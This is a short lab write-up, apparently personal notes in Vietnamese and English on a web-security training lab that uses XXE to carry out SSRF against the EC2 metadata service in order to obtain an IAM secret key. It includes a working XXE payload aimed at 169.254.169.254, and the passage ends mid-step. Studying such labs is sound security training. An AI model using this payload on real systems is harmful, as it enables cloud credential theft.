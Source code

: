 



### Lab 2: Exploiting XXE to perform SSRF attacks

Lab des: Khai thác XXE để thực hiện SSRF truy vấn đến EC2 metadata service (`http://169.254.169.254/`) và lấy IAM SecretAccessKey.

Steps: 

Payload truy cập metadata service: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

![image-20250803132722183](./image/image-20250803132722183.png)

Response trả về lần lượt các folder endpoint trong metadata service: 
